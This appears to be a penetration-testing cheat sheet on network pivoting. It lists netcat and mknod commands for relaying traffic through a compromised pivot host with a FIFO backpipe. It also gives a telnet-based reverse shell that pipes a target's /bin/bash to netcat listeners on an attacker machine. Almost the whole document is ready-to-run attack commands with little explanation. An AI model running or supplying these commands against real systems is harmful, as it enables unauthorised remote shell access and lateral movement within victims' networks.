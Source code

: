 # Pivoting

## Make a FIFO in the file system 

```shell
mknod [name of file] p
```

## Pivoting with a backpipe #
### On the attacker:

```shell
nc [pivot host]
```

### On the pivot host

```shell
nc localhost 80 <[FIFO file name] | nc -l -p 4444 >[FIFO file name]
```

## Telnet variant (when netcat is not available on the target) #
### Listen on port 80 in terminal 1 on the attack machine

```shell
nc -l -n -v -p 80 
```

### Listen on port 443 in terminal 2 on the attack machine

```shell
nc -l -n -v -p 443
```

### On the target machine:

```shell
telnet [attack host] 80 | /bin/bash | telnet [attack host]
```

